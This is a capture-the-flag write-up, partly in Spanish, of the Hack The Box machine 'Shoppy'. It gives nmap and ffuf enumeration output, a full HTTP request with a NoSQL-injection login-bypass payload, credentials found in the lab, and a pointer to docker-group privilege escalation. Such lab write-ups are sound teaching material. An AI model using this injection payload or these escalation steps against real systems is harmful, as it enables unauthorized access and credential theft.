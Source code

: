 ```yaml
---
description: Linux · Easy
---
```


# Shoppy

## Reconocimiento

```bash
nmap -sC -sV -oA ./nmap/shoppy 10.10.11.180
```

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-25 18:25 EST
Nmap scan report for 10.10.11.180
Host is up (0.026s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.81 seconds

```

Se descubrió dos puertos el `22/tcp` que por default es SSH y el puerto `80/tcp` que es HTTP,el servidor corre con Nginx 1.23.1.Tambien aparece `shoppy.htb`

Debemos agregar la URL en `/etc/hosts`

## Enumeracion

### Webserver

We start with the enumeration of the website. We visit the website through the URL `http://shoppy.htb`.

```bash
 ffuf -c -w /usr/share/wordlists/dirb/big.txt -u http://shoppy.htb/FUZZ
```

```bash

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://shoppy.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 40ms]
ADMIN                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 54ms]
Login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 59ms]
admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 44ms]
assets                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 58ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 40ms]
exports                 [Status: 301, Size: 181, Words: 7, Lines: 11, Duration: 30ms]
favicon.ico             [Status: 200, Size: 213054, Words: 56, Lines: 89, Duration: 32ms]
fonts                   [Status: 301, Size: 177, Words: 7, Lines: 11, Duration: 31ms]
images                  [Status: 301, Size: 179, Words: 7, Lines: 11, Duration: 28ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 43ms]
login                   [Status: 200, Size: 1074, Words: 152, Lines: 26, Duration: 46ms]
:: Progress: [20469/20469] :: Job [1/1] :: 1031 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

```

Nice! We have found a login page on `http://shoppy.htb/login`. To login, we need valid credentials. We do not currently have those credentials. Also, the location `http://shoppy.htb/exports` is interessting, but we cannot extract any information from this URL right now, maybe later on in this machine.



## Acceder

### Access as admin webportal

If we are using a single quote (`'`) in the username field, we receive a `504 Gateway Time-out`. We have our first error message. We need to perform some more enumeration. This part of the machine, was the most confusing part of this box. It took me some time to find out how to get a foothold on this machine.

The error message shows the URL `http://shoppy.htb/login?error=WrongCredentials`

Let’s try various payloads in the login form. After a long time of trying, we are able to find the right payload to bypass the login mechanism through BurpSuite.

```
POST /login HTTP/1.1
Host: shoppy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://shoppy.htb
Connection: close
Referer: http://shoppy.htb/login
Upgrade-Insecure-Requests: 1

username=admin'||'1==1//&password=toto

```

After logging in, we are redirected to `http://shoppy.htb/admin`

From this page, we can search for users. We can search for the user `admin`, and received the password for this user account. We’ve tried to crack this password, but it seems it is uncrackable. After filling in the payload `'||'1==1//` in the search bar (payload always trye), it shows all existing user accounts in the databse.

Let’s try to crack the password of the useraccount `john`.

We have found the password `remembermethisway`. With this password I’ve tried to login through SSH with this password, but no luck. After enumerating around, we found an extra sub-domain `http://mattermost.shoppy.htb`, using `ffuf`.

We cannot now login with the user `josh` with the cracked password.

After looking around, we find the credentials for the user account `jaeger` with the password `Sh0ppyBest@pp!`.

## SSH access as jaeger <a href="#ssh-access-as-jaeger" id="ssh-access-as-jaeger"></a>

With this user account, we can access the machine through SSH and grab the user flag.

## Lateral Movement <a href="#lateral-movement" id="lateral-movement"></a>

### Move from jaeger to deploy

This user account has the permission to run `/home/deploy/password-manager` on behalf of the user account `deploy`.

After executing this program, it’s asking for a master password. As we are able to run the program, we can also try to read the program.

It seems that the password is: `Sample`.

## Privilege Escalation <a href="#privilege-escalation" id="privilege-escalation"></a>

Yes! We have now the credentials for the user account `deploy`. We can switch to this user account and run `linpeas.sh`.

## Exploit docker <a href="#exploit-docker" id="exploit-docker"></a>

The user account `deploy` is in the `docker` group. Through [GTFObins](https://gtfobins.github.io/gtfobins/docker/) we can find the path to privilege escalation.

Thanks for reading this write-up! Did you enjoy reading this write-up? Or learned something from it? Please consider spending a respect point: [https://app.hackthebox.com/profile/224856.com/profile/224856](https://app.hackthebox.com/profile/224856.com/profile/224856). Thanks!
